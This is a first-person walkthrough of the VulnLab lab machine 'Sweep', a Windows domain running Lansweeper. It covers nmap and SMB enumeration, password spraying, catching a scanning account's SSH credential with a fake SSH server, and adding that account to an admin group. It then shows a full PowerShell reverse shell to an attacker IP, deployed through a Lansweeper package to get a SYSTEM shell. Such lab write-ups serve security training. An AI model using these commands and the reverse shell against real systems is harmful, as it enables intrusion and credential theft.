# Sweep

Welcome Reader, today we’ll hack **Sweep** from VulnLab. It’s a Windows machine with medium difficulty.


## Enumeration

We will start with an Nmap scan.

```bash
# Nmap 7.94SVN scan initiated Tue Oct  8 10:31:56 2024 as: /usr/lib/nmap/nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /home/daffy/Documents/Raw/results/10.10.90.18/scans/_quick_tcp_nmap.txt -oX /home/daffy/Documents/Raw/results/10.10.90.18/scans/xml/_quick_tcp_nmap.xml 10.10.90.18
```

The scan showed Lansweeper on ports 81 and 82, along with the usual Windows AD services.

```text
53/tcp   open  domain?           syn-ack ttl 127
81/tcp   open  http              syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 0A60C945E674EC7B953429B515519567
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp   open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 0A60C945E674EC7B953429B515519567
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Issuer: commonName=Lansweeper Secure Website
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha512WithRSAEncryption
| Not valid before: 2021-11-21T09:22:27
| Not valid after:  2121-12-21T09:22:27
...
88/tcp   open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-08 05:32:16Z)
135/tcp  open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?     syn-ack ttl 127
464/tcp  open  kpasswd5?         syn-ack ttl 127
593/tcp  open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?          syn-ack ttl 127
3268/tcp open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl? syn-ack ttl 127
3389/tcp open  ms-wbt-server     syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: SWEEP
|   NetBIOS_Domain_Name: SWEEP
|   NetBIOS_Computer_Name: INVENTORY
|   DNS_Domain_Name: sweep.vl
|   DNS_Computer_Name: inventory.sweep.vl
|   Product_Version: 10.0.20348
...
5357/tcp open  http              syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
```

SMB enumeration showed a readable `DefaultPackageShare$` share.

```bash
crackmapexec smb 10.10.90.18 -u 'guest' -p '' --shares
```

```text
SMB         10.10.90.18     445    INVENTORY        [+] sweep.vl\guest:
SMB         10.10.90.18     445    INVENTORY        [+] Enumerated shares
SMB         10.10.90.18     445    INVENTORY        Share           Permissions     Remark
SMB         10.10.90.18     445    INVENTORY        -----           -----------     ------
SMB         10.10.90.18     445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.90.18     445    INVENTORY        C$                              Default share
SMB         10.10.90.18     445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.90.18     445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.90.18     445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.90.18     445    INVENTORY        NETLOGON                        Logon server share
SMB         10.10.90.18     445    INVENTORY        SYSVOL          READ            Logon server share
```

There was nothing interesting on the shares at first, so I moved to the web application.

## Web Access

Lansweeper was running on the website, and I could not log in with default or weak credentials.

I enumerated users and brute-forced passwords, which gave me a valid account:

```bash
crackmapexec smb 10.10.90.18 -u users -p users --no-bruteforce --continue-on-success
```

```text
SMB         10.10.90.18     445    INVENTORY        [+] sweep.vl\intern:<REDACTED> <-- Cracked
```

I used that password against Lansweeper and it worked.



While looking around, I found the scanning credentials section.



## Credential Capture

The `svc_inventory_lnx` account was being used to scan targets, which meant its credentials would likely be exposed during scanning. I decided to point the scan at my machine and catch the SSH login with a fake SSH server.

```bash
go install github.com/fffaraz/fakessh@latest
sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
./fakessh
```

Then I started the scan from Lansweeper.

```text
2024/10/08 12:58:11.355047 10.10.90.18:62079
2024/10/08 12:58:15.725291 10.10.90.18:62089
2024/10/08 12:58:16.408389 10.10.90.18:62090
2024/10/08 12:58:17.080003 10.10.90.18:62090 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx <REDACTED>
```

That gave me the plaintext credential for `svc_inventory_lnx`.

## Domain Mapping

Before using it, I checked whether the user had anything useful in BloodHound.

```bash
bloodhound-python -u 'intern' -p '<REDACTED>' -d sweep.vl -c all --zip -ns 10.10.90.18
```

BloodHound showed that `svc_inventory_lnx` had a path into Lansweeper administration.

This confirmed that the account was the key to privilege escalation.

## Initial Foothold

I added the scanning target to my control and prepared to abuse the Lansweeper credentials.



we have to setup a fake ssh with this tool : https://github.com/fffaraz/fakessh

```bash
~ $ go install github.com/fffaraz/fakessh@latest
~ $ sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
~ $ ./fakessh
```
It’s time to start the attack. Select add credentials and go with Inventory Linux.





```text
~/go/bin 10.8.3.192 # ./fakessh 
2024/10/08 12:58:11.355047 10.10.90.18:62079
2024/10/08 12:58:15.725291 10.10.90.18:62089
2024/10/08 12:58:16.408389 10.10.90.18:62090
2024/10/08 12:58:17.080003 10.10.90.18:62090 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx <REDACTED>
```
Then I added `svc_inventory_lnx` to the `LANSWEEPER ADMINS` group using its delegated rights.

```bash
net rpc group addmem "LANSWEEPER ADMINS" "svc_inventory_lnx" -U sweep.cl/svc_inventory_lnx%'<REDACTED>' -S 10.10.90.18
```

To verify the change, I listed the group members.

```bash
net rpc group members "LANSWEEPER ADMINS" -U sweep.cl/svc_inventory_lnx%'<REDACTED>' -S 10.10.90.18
```

```text
SWEEP\jgre808
SWEEP\svc_inventory_lnx
```

Now I could authenticate through WinRM.

```bash
crackmapexec winrm sweep.vl -u svc_inventory_lnx -p '<REDACTED>'
```

```text
SMB         sweep.vl        5985   INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl)
HTTP        sweep.vl        5985   INVENTORY        [*] http://sweep.vl:5985/wsman
WINRM       sweep.vl        5985   INVENTORY        [+] sweep.vl\svc_inventory_lnx:<REDACTED> (Pwn3d!)
```

That gave me a user shell.

```text
*Evil-WinRM* PS C:\> type user.txt
VL{REDIRECTED}
```

## Privilege Escalation

I logged in to Lansweeper with the privileged account and used the extra access to map new credentials as a Windows Computer, setting the domain to `sweep\inventory`.



Next I opened Deployment and created a new package.





I added a command step with a PowerShell reverse shell.

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.192',1447);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



Then I deployed the package to the `inventory` asset.






I started a listener and waited for the callback.

```text
┍┽ penelope ┾┑ Session  > sessions 2[1]
[+] Added readline support...
[+] Interacting with session, Shell Type: Basic, Menu key: Ctrl-D[2]
PS C:\Windows\system32> whoami
nt authority\system
```
That was a SYSTEM shell.

## Attack Path

- **Enumerate the target** — identify Lansweeper, DNS, Kerberos, SMB, LDAP, and WinRM.
- **Find a valid user** — brute force or validate `intern` on SMB and the web portal.
- **Review Lansweeper features** — discover scanning credentials and deployment functionality.
- **Sniff the scanner login** — use a fake SSH server to capture `svc_inventory_lnx`.
- **Check domain relations** — verify the account has useful delegated access.
- **Abuse Lansweeper admins** — add `svc_inventory_lnx` to `LANSWEEPER ADMINS`.
- **Log in over WinRM** — obtain a user shell.
- **Create a deployment package** — add a PowerShell reverse shell step.
- **Deploy to the inventory asset** — trigger code execution as SYSTEM.
- **Read the root flag** — pull `root.txt` from the Administrator desktop.
